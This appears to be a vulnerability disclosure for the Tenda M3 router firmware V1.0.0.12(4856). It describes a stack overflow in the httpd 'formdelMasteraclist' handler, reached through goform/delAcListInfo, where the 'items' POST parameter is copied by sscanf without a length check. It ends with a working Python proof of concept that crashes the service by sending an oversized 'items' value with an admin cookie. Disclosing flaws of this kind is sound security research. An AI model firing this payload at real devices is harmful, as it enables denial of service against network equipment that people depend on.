


## Overview

- The device's official website: https://www.tenda.com.cn/product/M3.html
- Firmware download website: https://www.tenda.com.cn/download/detail-3133.html

## Affected version

V1.0.0.12(4856)

## Vulnerability details

httpd in directory `/bin` has a stack overflow vulnerability. The vulnerability occurrs in the `formdelMasteraclist` function, which can be accessed via the URL `goform/delAcListInfo`.



function `formdelMasteraclist` gets the POST parameter `items` and passes it to function `sub_53778` as the first argument.



This function splits the first argument with a `,` and then splits it into a buffer by calling `sscanf` function without checking its length.

## PoC

Poc of Denial of Service(DoS)

```python
import requests

data = {
    b"items": b'A'*0x400 + b':' + b'A'*0x400 + b',',
}
cookies = {
    b"user": "admin"
}
res = requests.post("http://127.0.0.1/goform/delAcListInfo", data=data, cookies=cookies)
print(res.content)
```

